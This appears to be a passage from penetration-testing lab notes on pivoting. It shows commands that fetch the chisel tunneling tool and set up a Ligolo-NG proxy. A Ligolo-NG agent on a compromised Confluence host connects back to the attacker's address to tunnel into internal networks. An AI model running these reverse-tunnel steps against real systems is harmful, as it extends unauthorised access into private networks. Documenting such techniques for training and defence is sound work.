 {% code overflow="wrap" %}
```bash
# download and prepare on Kali
$ wget https://github.com/jpillora/chisel/releases/download/v1.10.1/chisel_1.10.1_linux_amd64.gz
$ gunzip chisel_1.10.1_linux_amd64.gz
$ mv chisel_1.10.1_linux_amd64 chisel
$ chmod +x chisel
$ ls -la chisel
-rwxrwxrwx 1 x7331 x7331 9371800 Apr 18 10:29 chisel
# confirm it's static
$ ldd chisel
        not a dynamic executable
```
{% endcode %}
{% endtab %}
{% endtabs %}

### Ligolo-NG

Ligolo-NG is a modern, agent-based tunneling utility for secure pivoting that establishes reverse TCP/TLS connections using a TUN interface, effectively creating a lightweight userland VPN for interactive pivoting and port forwarding — without relying on SOCKS proxies.

{% tabs %}
{% tab title="1. Proxy" %}
{% code overflow="wrap" %}
```bash
$ sudo ligolo-proxy -selfcert
...
INFO[0000] Listening on 0.0.0.0:11601
...
ligolo-ng » interface_create --name "port_forward"
INFO[0012] Creating a new "port_forward" interface...
INFO[0012] Interface created!                         
```
{% endcode %}
{% endtab %}

{% tab title="2. Agent" %}
{% code overflow="wrap" %}
```bash
$ ./agent -connect 192.168.45.235:11601 -ignore-cert -retry
WARN[0000] warning, certificate validation disabled
INFO[0000] Connection established             addr="192.168.45.235:11601"
```
{% endcode %}
{% endtab %}

{% tab title="3. Tunnel" %}
{% code overflow="wrap" %}
```bash
$ sudo ligolo-proxy -selfcert
...
ligolo-ng » INFO[0544] Agent joined.                                 id=243b738c-4933-4d24-b8ce-13e2cc2be5bc name=confluence@confluence01 remote="192.168.125.63:38220"
ligolo-ng » session
? Specify a session : 1 - confluence@confluence01 - 192.168.125.63:58436 - b1bee230-6aed-4130-a625-e1965670d3d9
[Agent : confluence@confluence01] » tunnel_start --tun port_forward
[Agent : confluence@confluence01] » INFO[0224] Starting tunnel to confluence@confluence01 (b1bee230-6aed-4130-a625-e1965670d3d9)
```
{% endcode %}
{% endtab %}
